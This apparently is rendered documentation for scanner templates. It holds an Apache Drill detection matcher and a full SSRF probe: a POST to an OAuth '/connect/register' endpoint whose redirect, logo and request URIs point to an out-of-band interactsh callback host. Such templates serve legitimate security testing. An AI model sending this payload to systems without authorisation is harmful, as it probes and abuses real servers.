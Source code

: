 ## Requests

- Method - GET

### URL

- {{BaseURL}}

### Matchers

**Type - word**

- part - body
- words
  1. \<title>Apache Drill\</title>

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# SSRF due to misconfiguration in OAuth

## Description

- Sends a POST request with the endpoint "/connect/register" to check external Interaction with multiple POST parameters.
- severity - medium
- tags - misconfig,oast,oauth,ssrf

## Requests

### Step - 1

```
POST /connect/register HTTP/1.1
Host: {{Hostname}}
Content-Type: application/json
Accept-Language: en-US,en;q=0.9

{
  "application_type": "web",
  "redirect_uris": ["https://{{interactsh-url}}/callback"],
  "client_name": "{{Hostname}}",
  "logo_uri": "https://{{interactsh-url}}/favicon.ico",
  "subject_type": "pairwise",
  "token_endpoint_auth_method": "client_secret_basic",
  "request_uris": ["https://{{interactsh-url}}"]
}

```
